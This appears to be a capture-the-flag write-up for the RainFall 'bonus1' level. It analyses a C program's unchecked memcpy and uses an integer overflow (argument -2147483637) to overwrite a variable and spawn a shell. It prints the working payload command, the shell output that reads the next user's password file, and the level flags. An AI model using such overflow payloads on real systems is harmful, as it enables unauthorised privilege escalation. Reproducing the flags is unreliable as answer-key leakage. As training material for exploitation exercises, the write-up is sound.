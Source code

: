 # **Bonus1**

## **Analysis**

**In `main()`:**

```c
    char    str[40];

    // Atoi first agrument and check if its inferior or equal to 9
    n = atoi(av[1])
    if (n > 9)
        return (1);
    else {
        // Unprotected memcpy to str, from 2nd argument with a length of the atoi from 1st arg multiply by 4
        memcpy(str, av[2], n * 4);
        // if atoi from 1st arg equal 1464814662, execute shell
        if (n == 0x574f4c46) // 1464814662
            execl("/bin/sh", "sh", 0);
    }
```

___

## **Exploit**

So we need a number inferior to 10 as first arg which multiply by 4 is superior to 40 to overflow `str`

A negative will always be inferior to 10, and multiply by 4 can be superior to 40

But at the end, this number should equal to 1464814662

= = = = = = = =

To match all this conditions, we will overflow str to rewrite `n`

https://www.binaryconvert.com/

44 = 00000000 00000000 00000000 00101100

11 = 00000000 00000000 00000000 00001011

10000000 00000000 00000000 00001011 = -2147483637

with overflow -2147483637 * 4 = 00000000 00000000 00000000 00101100 = 44

= = = = = = = =

Solution:
 * 1st Arg
   * -2147483637
 * 2nd Arg:
   * (40) Offset
   * (04) New value for `n`

```
bonus1@RainFall:~$ ./bonus1 -2147483637 $(python -c 'print "\x90" * 40 + "\x46\x4c\x4f\x57"')
$ whoami
bonus2
$ cat /home/user/bonus2/.pass
579bd19263eb8655e4cf7b742d75edf8c38226925d78db8163506f5191825245
```

___

*Password: cd1f77a585965341c37a1774a1d1686326e1fc53aaa5459c840409d4d06523c9*
